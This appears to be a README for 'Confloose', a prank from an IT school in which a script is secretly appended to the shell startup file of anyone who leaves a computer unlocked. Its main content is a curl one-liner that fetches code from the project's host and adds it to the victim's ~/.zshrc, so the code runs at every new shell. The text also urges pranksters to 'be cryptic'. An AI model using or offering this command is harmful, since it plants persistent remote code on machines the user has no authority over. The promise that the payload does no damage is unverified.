 Confloose
=========

A *confloose* (or "loose configuration") is a collection of the worst a startup
script can do for you.

There has been a prank going on from quite some time in my IT school --
when someone leaves his computer unattended, and without locking it, one would
append a script to the victim's shell startup file.

The deal is to put really annoying things right off the bat while not harming
the computer and the data on it -- this prank is meant as a lesson (you should
not leave your computer unattended in public space), and a fun challenge (at
least for the one watching from afar)

How to confloose somebody :
---------------------------

``curl "http://confloo.se/hard" >> ~/.the_shell_rc``

So, as an example, confloosing someone using zsh :

``curl "http://confloo.se/hard" >> ~/.zshrc``

Rules :
-------
1. Don't destroy anything.
2. Don't steal anything.
3. Try to be cryptic.
4. Be fun and creative.
